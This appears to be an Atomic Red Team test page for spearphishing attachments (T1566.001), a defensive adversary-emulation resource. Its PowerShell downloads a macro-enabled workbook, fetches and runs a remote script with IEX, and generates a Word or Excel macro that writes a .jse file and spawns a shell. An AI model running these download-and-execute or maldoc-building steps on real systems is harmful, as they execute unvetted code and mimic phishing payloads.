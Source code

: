 ```yaml
---
tags: [T1566_001, atomic_test]
filename: "[[T1566.001|T1566.001 - Phishing: Spearphishing Attachment]]"
---
```

# T1566.001 - Phishing: Spearphishing Attachment

## Atomic Test #1 - Download Macro-Enabled Phishing Attachment
This atomic test downloads a macro enabled document from the Atomic Red Team GitHub repository, simulating an end user clicking a phishing link to download the file.
The file "PhishingAttachment.xlsm" is downloaded to the %temp% directory.

**Supported Platforms:** Windows


**auto_generated_guid:** 114ccff9-ae6d-4547-9ead-4cd69f687306






#### Attack Commands: Run with `powershell`! 


```powershell
$url = 'https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1566.001/bin/PhishingAttachment.xlsm'
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\PhishingAttachment.xlsm -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Word spawned a command shell and used an IP address in the command line
Word spawning a command prompt then running a command with an IP address in the command line is an indicator of malicious activity.
Upon execution, CMD will be launched and ping 8.8.8.8.

**Supported Platforms:** Windows


**auto_generated_guid:** cbb6799a-425c-4f83-9194-5447a909d67f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| jse_path | Path for the macro to write out the "malicious" .jse file | string | C:&#92;Users&#92;Public&#92;art.jse|
| ms_product | Maldoc application Word or Excel | string | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
```

#### Cleanup Commands:
```powershell
Remove-Item #{jse_path} -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
